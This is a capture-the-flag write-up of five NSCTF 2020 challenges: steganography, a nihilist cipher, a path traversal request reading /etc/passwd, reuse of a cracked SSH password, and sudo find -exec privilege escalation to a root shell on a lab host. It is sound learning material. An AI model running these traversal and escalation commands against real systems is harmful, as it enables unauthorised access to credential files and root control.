 # Writeup for CTFFriday 2020 July W1 by Muzkkir

In this article, I’m going to explain solutions of NSCTF July Week 1, 2020 CTF challenge theme "Asur" Organized by Net-Square Solutions Pvt. Ltd. and created by Prachi Karad.

This CTF had Five different challenges in which major 4 domain was covered; Stenography, Cryptography, Privilege Escalation, and Web challenges. We have to start from Stenography and Cryptography exploitation to access the system and Privilege Escalation to read the flag file.

<kbd>![alt text](images/1.png)</kbd>

## First Flag

<kbd>![alt text](images/02.png)</kbd>

As the challenge was about looking for the "MASK" on the webpage. I visit the source code page and found that.

<kbd>![alt text](images/03.png)</kbd>

<kbd>![alt text](images/04.png)</kbd>

Firstly, I have download all images and try to use the Steghide tool to extract data.

<kbd>![alt text](images/2.png)</kbd>

I use the Binwalk tool to extract data from the images. I got extracted files from the "mask.jpg"

<kbd>![alt text](images/3.png)</kbd>

```
binwalk -B mask.jpg 
binwalk --dd='.*' mask.jpg
```
by using that command I can able to extract the hidden files from image. 

<kbd>![alt text](images/4.png)</kbd>

Bingo !!! I got my 1st Flag !!!

<kbd>![alt text](images/05.png)</kbd>

```
NSCTF{Andhakar_Ek_5ach_Hai_Aur_Prakash_3k_Mithya}
```

<kbd>![alt text](images/9)</kbd>


## Second Flag

<kbd>![alt text](images/10.png)</kbd>

Now, I need to look for the "nihilist" image.

<kbd>![alt text](images/11.png)</kbd>

Using strings command I extracted words from image "nihilist.jpeg". I used -n query to extract word length more than 9
```
strings nihilist.jpeg -n 9
```
<kbd>![alt text](images/12.png)</kbd>

```
74 47 47 82 73 49 72 64 66 45 83 48 86 47 64 46 64 68 56 57 48 46 84 65 73 75 45 43 55 49 72 47 65
Ask nikhil to open the door
```
I have retrieved the 2 important hints. Which the first one might be encoding and the second would be the key to extract the flag.

<kbd>![alt text](images/13.png)</kbd>

I visit the "https://cryptii.com/" website to decode the ASCII code. Look at the Library !! I found the encoding method.

<kbd>![alt text](images/14.png)</kbd>

> Now Time to Extract the Flag

<kbd>![alt text](images/15.png)</kbd>

```"flag{karunahikrurtahailagaavhipeedahai}"```



## Third Flag

<kbd>![alt text](images/20.png)</kbd>

As the HINT suggests So I started looking for a "dj" word.
However, most of the attempts are failed at first.

<kbd>![alt text](images/21.png)</kbd>

<kbd>![alt text](images/22.png)</kbd>

<kbd>![alt text](images/23.png)</kbd>

<kbd>![alt text](images/24.png)</kbd>

<kbd>![alt text](images/25.png)</kbd>

> I looked for every possibility. :( but did not found anything useful. Then I got the message!

<kbd>![alt text](images/26.png)</kbd>

I have started looking for "CWE 22" and it is a path traversal vulnerability.

<kbd>![alt text](images/27.png)</kbd>

```So, I went to "http://10.90.137.137/?dj=/etc/passwd"```

<kbd>![alt text](images/28.png)</kbd>

I visit the home folder of Asur and the response was hidden.

<kbd>![alt text](images/29.png)</kbd>

But I found on the source page.

```NSCTF{Peeda_5e_Bada_Sh1kshak_Aur_koi_nahi_Hota}```

<kbd>![alt text](images/30.png)</kbd>



## Fourth Flag

<kbd>![alt text](images/41.png)</kbd>

<kbd>![alt text](images/40.png)</kbd>

I quickly visit the Asur's command history file.

<kbd>![alt text](images/42.png)</kbd>

<kbd>![alt text](images/43.png)</kbd>

```asur:b8be16afba8c314ad33d812f22a04991b90e2aaa```
As per my assumptions, this must be the SSH login credentials but the password was hash format. For hash value to decode I use an online platform named CrackStation where I got the real value of the hash file.
```baconandcheese```

<kbd>![alt text](images/44.png)</kbd>

It's time for Login with SSH !! but what !! I face an error!

<kbd>![alt text](images/45.png)</kbd>

Now I visit the "passwd" file in which I tried all other users with the same credentials.

<kbd>![alt text](images/47.png)</kbd>

listing the directory files for the flag.

```
NSCTF{ATTR_TATTRA_SARVATRA}
```

<kbd>![alt text](images/48.png)</kbd>



## Fifth Flag

<kbd>![alt text](images/60.png)</kbd>

Task is about Privilege Escalation so first I have to look for simple methods.

<kbd>![alt text](images/61.png)</kbd>

Interestingly, I can only use the find command as a superuser. 
So, I research on the web about the "find" command to get superuser privilege on the web.

<kbd>![alt text](images/69.png)</kbd>

> & Finally found something useful on "https://www.andreafortuna.org/2018/05/16/exploiting-sudo-for-linux-privilege-escalation/" Domain.
At this point, you can notice that the user can run any command through find command. Therefore we got root access by executing below commands.

<kbd>![alt text](images/68.png)</kbd>

I have run some commands to see the possibilities. Below is the result.
```
localhost:/home/asur$ sudo find . -exec /bin/bash \;
find: /bin/bash: No such file or directory
find: /bin/bash: No such file or directory
find: /bin/bash: No such file or directory
localhost:/home/asur$ sudo find ../asur/.flag.txt  -exec /bin/bash \;
find: /bin/bash: No such file or directory
localhost:/home/asur$ sudo find ../asur/.flag.txt  -exec /bin/ash  \;
localhost:/home/asur# 
```
From that I sure that, This will work.

<kbd>![alt text](images/66.png)</kbd>

Gotcha !!!
```NSCTF{5amanya_Manushya_Ka_5imit_Gyan_Use_Apne_5e_Pare_Dekhne_Nahi_D3t4}```



## Conclusion


Overall, this CTF was unique for me because I learned about new techniques to Escalate my privileges, as I didn't expect that "find" command can be used for escalation, and cryptography, Stegniography was good for practice. Also, playing this was fun and I appreciate the efforts of the team.


#

**Thank you.**

**Husseni Muzkkir.**
